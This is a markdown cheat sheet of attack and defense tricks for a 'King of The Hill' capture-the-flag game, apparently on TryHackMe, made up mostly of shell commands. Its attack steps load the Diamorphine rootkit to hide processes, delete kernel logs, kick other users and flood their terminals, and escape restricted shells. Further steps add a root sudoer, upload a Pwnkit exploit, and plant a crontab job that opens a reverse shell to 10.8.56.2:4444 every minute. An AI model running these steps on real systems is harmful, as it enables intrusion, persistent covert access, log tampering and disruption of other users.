 
# King of The Hill
KoTH - Attack & defense Tricks

- Using rustscan
- Connecting SSH without tty and hiding the process using rootkit
    - ssh -T user@target.ip -p 1337
        - w
        - who
        - tty
        - ls /dev/pts;
    - ps aux | grep notty
        - git clone git@github.com:m0nad/Diamorphine.git
        - make
        - insmod diamorphine.ko
        - kill -31 <PID>
        - tail -f /var/log/kern.log
        - rm /var/log/kern.log
- Kicking people out of the machine using pkill
    - pkill -9 -t pts/<ID>
    - kill -9 <PID>
- Kicking all users connected in SSH
    - kill `ps aux | grep pts | awk ‘{print $2}’`;
- Kicking all people connected to a given user on SSH
    - pkill -9 -U <user>
- Using ps and grep to search for pts/sshd
    - ps aux | grep sshd
- Trolling your opponent
    - cat /dev/urandom > /dev/pts/<ID> &
    - ./nyancat > /dev/pts/<ID> &
    - ./xpl -n /dev/pts/<ID> “cat /dev/urandom”
    - ./breker.sh <ID>
- Bypass rbash
    - vim
        - :set shell=/bin/bash
        - :shell
- Patch /etc/sudoers
    - vim /etc/sudoers
        - remove everything except: root ALL=(ALL=ALL) ALL
        - remove #includedir /etc/sudoers.d
- Patch SUID
    - Find / -perm /4000 2>/dev/null
    - chmod -s /usr/bin/pkexec
- Removing SSH keys
    - cd ~/.ssh
    - rm id_rsa 
    - rm id_rsa.pub
- LFI Patch
    - <?php include ($_GET['page']); ?>    ------>  <?php include (str_replace(“../”, “”, $_GET['page'])); ?>
- Patch Command Injection
    - remove <?php …………  system(...)  ……… ?>
- Capturing flags using find and grep
    - cd /home; grep -ri thm{ 2>/dev/null
    - cd /var/www; grep -ri thm{ 2>/dev/null
    - cd /root; grep -ri thm{ 2>/dev/null
    - find / -name user.txt 2>/dev/null
    - find / -name flag.txt 2>/dev/null
    - find / -name flag 2>/dev/null
- Adding user with root privilege
    - adduser USER
    - add USER ALL=(ALL:ALL) ALL to /etc/sudoers
- Removing execution permissions form binaries
    - chmod -x /usr/bin/wget
    - chmod -x /usr/bin/curl
    - chmod -x /usr/bin/chattr
- Uploading file using SSH
    - ssh user@target.ip -p1337 “cat Pwnkit” < Pwnkit
- Protect king using while
    - while true; do chattr -ia /root/king.txt; echo msoodb > /root/king.txt; chattr +ia /root/king.txt; set -o noclobber /root/king.txt ; done &
- Blocking password authentication in ssh
    - PasswordAuthentication no in /etc/ssh/sshd_config
    - service sshd restart
- Using crontab to load a script with a reverse shell every 1 minute
    - echo "/bin/sh -i >& /dev/tcp/10.8.56.2/4444 0>&1" > /tmp/.persistence.sh
    - chmod +x .persistence.sh
    - vim /etc/crontab
        - * * * * * root /tmp/.persistence.sh

## kit
- deploy kit
- /bin/bash linpeas.sh
- get root shell
- config ssh for ONLY root
    - cat /tmp/.kit/authorized_keys > authorized_keys
    - chmod 600 authorized_keys
    - /etc/ssh/sshd_config
        - AllowUsers root
        - PasswordAuthentication no
    - sudo systemctl restart sshd
- /etc/sudoers
    - remove everything except: root ALL=(ALL=ALL) ALL
    - remove #includedir /etc/sudoers.d